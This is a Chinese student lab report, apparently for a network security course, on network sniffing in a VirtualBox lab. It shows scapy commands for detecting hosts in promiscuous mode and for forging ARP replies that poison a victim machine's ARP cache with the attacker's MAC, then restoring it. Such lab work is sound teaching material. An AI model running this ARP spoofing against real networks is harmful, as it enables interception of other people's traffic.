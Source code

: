 # 实验四：网络监听

## 实验环境

- VirtualBox 6.1
- 攻击者主机（Attacker）：Kali 
- 网关（Gateway）：Debian 
- 靶机（Victim）：Kali 

## 网络拓扑

![网络拓扑](img/网络拓扑.jpg)

如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:1c:b3:37 / eth1
  - 172.16.111.101

![攻击者主机](img/攻击者主机.png)

- 受害者主机
  - 08:00:27:df:e2:45 / eth0
  - 172.16.111.131

![受害者主机](img/受害者主机.png)

- 网关
  - 08:00:27:c3:23:6c / enp0s9
  - 172.16.111.1

![网关](img/网关.png)

## 实验准备

### 安装scapy

在攻击者主机提前安装好 [scapy](https://scapy.net/)

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![攻击者主机安装scapy-1](img/攻击者主机安装scapy-1.png)

![攻击者主机安装scapy-2](img/攻击者主机安装scapy-2.png)

## 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![在受害者主机上检查网卡的混杂模式是否启用](img/在受害者主机上检查网卡的混杂模式是否启用.png)

```shell
# 在攻击者主机上开启 scapy
sudo scapy
```

![在攻击者主机上开启scapy](img/在攻击者主机上开启scapy.png)

```shell
# 在 scapy 的交互式终端输入以下代码回车执行（受害者主机的IP地址）
pkt = promiscping("172.16.111.131")
```

![scapy的终端输入受害者主机的IP地址](img/scapy的终端输入受害者主机的IP地址.png)

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![受害者主机开启网卡的混杂模式](img/受害者主机开启网卡的混杂模式.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.131")
```

![攻击者主机收到来自受害者主机的数据包](img/攻击者主机收到来自受害者主机的数据包.png)

这一步我的攻击者主机最开始没有收到来自受害者主机的数据包，向同学求助之后才发现，是我的攻击者主机没有开内部网络的网卡，这个操作需要让攻击者主机和受害者主机在同一个局域网内，这样才能收到回复。

- 原理
  - promiscping命令会发送ARP who-has请求
- 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接收发给本机的包

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

![关闭受害者主机的混杂模式](img/关闭受害者主机的混杂模式.png)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成

```shell
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![ARP请求报文详情](img/ARP请求报文详情.png)

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast,timeout=2,iface="eth1")
# eth1是攻击者的网卡

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![攻击者主机发送ARP广播请求](img/攻击者主机发送ARP广播请求.png)

![网关的MAC地址](img/网关的MAC地址.png)

网关的MAC地址为`08:00:27:c3:23:6c`

```shell
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.131
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.131", hwdst="08:00:27:1c:b3:37")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![伪造网关的ARP响应数据包到受害者主机](img/伪造网关的ARP响应数据包到受害者主机.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```

![受害者主机上查看ARP缓存](img/受害者主机上查看ARP缓存.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c3:23:6c", pdst="172.16.111.131", hwdst="08:00:27:df:e2:45")
sendp(restorepkt1, count=100, inter=0.2)
```

![恢复受害者主机的ARP缓存记录](img/恢复受害者主机的ARP缓存记录.png)

此时在受害者主机上准备“刷新”网关 ARP 记录

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![受害者主机恢复正常的网关ARP记录](img/受害者主机恢复正常的网关ARP记录.png)

## 参考资料

- [黄大的课本——实验四：网络监听](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [经验分享：解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)